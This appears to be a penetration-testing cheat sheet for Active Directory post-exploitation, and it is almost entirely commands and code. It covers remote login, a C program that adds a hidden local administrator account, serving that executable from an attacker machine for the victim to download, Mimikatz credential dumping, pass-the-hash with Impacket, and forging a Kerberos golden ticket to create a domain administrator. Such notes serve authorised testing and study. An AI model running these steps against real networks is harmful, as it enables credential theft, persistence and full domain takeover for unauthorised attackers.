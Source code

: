 # active directory pentest

## Active Directory Post Exploitation

### Access Users Remotely

#### Xfreerdp

```
xfreerdp /u:mike /p:P@ssword /d:homeserver.local /v:192.168.56.13 /w:1920 /h:1080 /fonts /smart-sizing
```

### Gathering Info

#### Cmd

```
# Get current user's detail
whoami

# View Groups
whoami /groups

# View all users in the domain
net user
```

### Privilege Escalation

#### Powershell

**View Running Services**

```
 Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}

```

**View Start Mode of Services**

```
Get-CimInstance -ClassName Win32_Service -Filter "Name='<service name>'" | Select-Object StartMode
```

**Check Permissions using ICACLS**

```
icacls "File Name/Path"
```

#### C Program

**Adduser.c**

```
#include<stdio.h>
#include<stdlib.h>

int main()
{

        int i;
        
        i = system("net user peter P@ssword /add");
        i = system("net localgroup administrators peter /add");

        return 0;

}

```

**Compile**

```
x86_64-w64-mingw32-gcc exploit.c -o adduser.exe

```

#### Share the Exe

```
# Attacker Machine
python3 -m http.server

# Victim Machine
iwr -Uri http://10.10.10.10/<file.exe> -OutFile <file.exe>
```

### Stealing Credentials

#### Mimikatz

```
# Start mimikatz
.\mimikatz.exe

# Dump hahses
privilege::debug

sekurlsa::logonpasswords
```

#### Impacket

**Wmiexec**

```
impacket-wmiexec -hashes :<NT Hash> domain/user@<IP>

# Vew powershell history
cd C:\users\jack\appdata\roaming\microsoft\microsoft\windows\powershell\psreadline

```

**PsExec**

```
# Accessing the domain controller
.\PSExec64.exe \\dc01 cmd.exe
```

### Forging Golden Tickets

#### Get krbtgt Hash and Domain SID

```
.\mimikatz.exe

privilege::debug

# Dump Hashes
lsadump::lsa /patch

```

#### Create Golden Ticket

```
.\mimiktaz.exe

kerberos::purge

# Creating Ticket

kerberos::golden /user:<any user> /domain:homeserver.local /sid:<domain sid> /krbtgt:<krbtgt hash> /ticket:homeserver_golden

```

#### Using Golden Ticket

**Powershell**

```
.\mimikatz.exe

kerberos::ptt homeserver_golden

misc::cmd

```

**PsExec**

```
PsExec.exe \\dc01 cmd.exe

# Add a user to domain
net user mike P@ssword /add /domain 

# Add a user to domain group
net group "domain admins" mike /add /domain

```

***

## REFERENCES

* https://www.mankier.com/1/xfreerdp
* https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
* https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service
* https://www.netwrix.com/how\_golden\_ticket\_attack\_works.html
* https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/forge\_ticket.html
* https://www.youtube.com/watch?v=f8jGhLwCa28\&pp=ygUgd2luZG93cyBwZW50ZXN0IGFjdGl2ZSBkaXJlY3Rvcnk%3D
* https://www.hackingarticles.in/understanding-guide-mimikatz/
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket
